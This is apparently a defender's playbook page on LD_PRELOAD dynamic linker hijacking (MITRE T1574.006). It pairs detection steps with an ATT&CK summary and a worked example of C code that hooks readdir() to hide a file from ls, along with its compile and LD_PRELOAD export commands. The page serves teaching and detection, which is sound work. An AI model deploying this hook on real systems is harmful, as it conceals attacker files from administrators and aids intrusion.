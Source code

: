 # Hijack Execution Flow: Dynamic Linker Hijacking T1574.006
## Execution flow hijacking playbook
1. Use `env | grep LD_PRELOAD` to check if LD_PRELOAD it is set. If it is - check specified path for malicious files.
2. Check `/etc/ld.so.preload` for malicious entries.
3. If you are certain that a binary was injected with a malicious function use `ldd <binary>` to list all used shared libraries.
4. Analyze malicious files for potential artifacts.
5. Remove malicious files.

## MITRE ATT&CK
Adversaries may execute their own malicious payloads by hijacking environment variables the dynamic linker uses to load shared libraries. During the execution preparation phase of a program, the dynamic linker loads specified absolute paths of shared libraries from environment variables and files, such as `LD_PRELOAD` on Linux or `DYLD_INSERT_LIBRARIES` on macOS. Libraries specified in environment variables are loaded first, taking precedence over system libraries with the same function name. These variables are often used by developers to debug binaries without needing to recompile, deconflict mapped symbols, and implement custom functions without changing the original library.

On Linux and macOS, hijacking dynamic linker variables may grant access to the victim process's memory, system/network resources, and possibly elevated privileges. This method may also evade detection from security products since the execution is masked under a legitimate process. Adversaries can set environment variables via the command line using the `export` command, `setenv` function, or `putenv` function. Adversaries can also leverage Dynamic Linker Hijacking to export variables in a shell or set variables programmatically using higher level syntax such as Python’s `os.environ`.

On Linux, adversaries may set `LD_PRELOAD` to point to malicious libraries that match the name of legitimate libraries which are requested by a victim program, causing the operating system to load the adversary's malicious code upon execution of the victim program. `LD_PRELOAD` can be set via the environment variable or `/etc/ld.so.preload` file.Libraries specified by `LD_PRELOAD` are loaded and mapped into memory by `dlopen()` and `mmap()` respectively.

On macOS this behavior is conceptually the same as on Linux, differing only in how the macOS dynamic libraries (dyld) is implemented at a lower level. Adversaries can set the `DYLD_INSERT_LIBRARIES` environment variable to point to malicious libraries containing names of legitimate libraries or functions requested by a victim program.

## General
### What Are Shared Libraries?
Shared libraries are pre-compiled C-code that are linked during the final steps of producing an executable. They provide reusable features like functions, routines, classes, data structures, etc., which can then be used while writing your own code.
### Common Shared Libraries which  Linux Contains are :
-   **libc** : The standard C library.
-   **glibc** : GNU Implementation of standard **libc**.
-   **libcurl** : Multiprotocol file transfer library.
-   **libcrypt** : C Library to facilitate encryption, hashing, encoding etc.

The important thing to know about shared libraries is that they contain the addresses of various functions required by programs during runtime. 
For example, when a dynamically linked executable issues a `read()` syscall, the system looks up the address of `read()` from the **libc** shared library. Now, **libc** has a well-defined definition for `read()`, which specifies the number and type of function parameters and expects a particular type of data in return. Usually, the system knows where to find these functions, but we can control where the system looks and the adversaries can leverage it for malicious activities.

### Example: hiding files from ls
The primary thing which we need to know here that the `ls` command uses a function called `readdir()` which returns a pointer to the next `dirent` structure in the directory. A `dirent` is a C - structure who's **glibc** definition can be obtained from the man page of **readdir**:
```
struct dirent {  
 ino_t          d_ino;       /* Inode number */  
 off_t          d_off;       /* Not an offset; see below */  
 unsigned short d_reclen;    /* Length of this record */  
 unsigned char  d_type;      /* Type of file; not supported not supported by all filesystem types */   
 char           d_name[256]; /* Null-terminated filename */  
 };
```

The main parameter which we are concerned about here is the `d_name[256]` which is a mandatory field and contains the name of the various files in our a directory.

So here's the roadmap:
-   `ls` uses `readdir()` function to get the contents of a directory
-   The `readdir()` function returns a pointer to a `dirent` structure to the next directory entry
-   The `dirent` structure contains a `d_name` parameter which contains the name of the file
-   Thus, we hook the `readdir()` function
-   Then we pass the parameters to the original function and check whether the `d_name` parameter of the `dirent` whose pointer is being returned is equal to a given a filename
-   If yes, we skip it and pass on the rest.

Our malicious readdir implementation:
```
#include <string.h>  
#include <stdlib.h>  
#include <dirent.h>  
#include <dlfcn.h>  
  
#define FILENAME "commandcontrol.json"  
  
struct dirent *readdir(DIR *dirp)  
{  
 struct dirent *(*old_readdir)(DIR *dir);   
 old_readdir = dlsym(RTLD_NEXT, "readdir");  
 struct dirent *dir;  
 while (dir = old_readdir(dirp))  
 {  
 if(strstr(dir->d_name,FILENAME) == 0) break;   
 }  
 return dir;  
}  
  
struct dirent64 *readdir64(DIR *dirp)  
{  
 struct dirent64 *(*old_readdir64)(DIR *dir);   
 old_readdir64 = dlsym(RTLD_NEXT, "readdir64");  
 struct dirent64 *dir;  
 while (dir = old_readdir64(dirp))  
 {  
 if(strstr(dir->d_name,FILENAME) == 0) break;  
 }  
 return dir;  
}
```

Breaking down our hook, we have:
-   First we declare our usual headers with the extra `#include <dirent.h>` header which contains the definition of the `dirent` structure
-   Then, we do our usual hooking stuff: creating a function with the same definition and return type, create a function pointer and use `dlsym` to store the value of the original function in it.
-   Finally coming to the most crucial part, we create a while loop and fetch the pointer to the next `dirent` structure in the directory stream pointed to by `dirp` and check if the `d_name` parameter contains our string. If it doesn't (which is denoted by an output **0** as a result of the `strstr` function), we simply break from the loop and return the value as obtained from the original function. However, if we have a match, we iterate one more time, thereby effectively skipping over our file a return pointer to the **dirent** structure pertaining to the next file in the directory.

Now all we have to do is compile the file like so:
`gcc malicious.c -fPIC -shared -D_GNU_SOURCE -o hidefile.so -ldl`
And then export it to LD_PRELOAD: `export LD_PRELOAD=./hidefile.so`

### Useful notes
Libraries in `LD_PRELOAD` are loaded before the ones listed in `/etc/ld.so.preload`.
LD_PRELOAD cannot be used with SUID binaries.
`man ld.so` holds all the information on other environment variables that affect dynamic linker.